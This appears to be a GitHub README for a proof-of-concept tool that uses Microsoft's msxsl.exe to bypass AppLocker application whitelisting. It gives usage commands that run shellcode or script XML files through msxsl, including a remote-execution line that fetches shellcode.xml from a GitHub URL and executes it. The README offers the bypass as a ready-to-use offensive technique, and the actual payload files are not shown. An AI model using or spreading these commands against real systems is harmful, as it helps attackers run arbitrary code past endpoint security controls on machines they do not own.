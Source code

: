 # Use-msxsl-to-bypass-AppLocker

Learn from Casey Smith@subTee

https://twitter.com/subTee/status/877616321747271680

### Usage:

	msxsl.exe argv1.xml shellcode.xml/JScript.xml/VBScript.xml
	
	or
	
	msxsl.exe shellcode.xml/JScript.xml/VBScript.xml shellcode.xml/JScript.xml/VBScript.xml
	
	or remote execution(Evi1cg told me)，like this:
	
	msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml

### shellcode.xml:

Use msxsl to run shellcode.

Combine Casey Smith's msxsl POC and Cn33liz's StarFighters.

Link:

	https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1   
	https://github.com/Cn33liz/StarFighters/blob/master/StarFighter.js

### JScript.xml:

Use JScript to run calc.exe

From: https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1#file-script-xsl

### VBScript.xml:

Use VBScript to run calc.exe

Details：

https://3gstudent.github.io/Use-msxsl-to-bypass-AppLocker
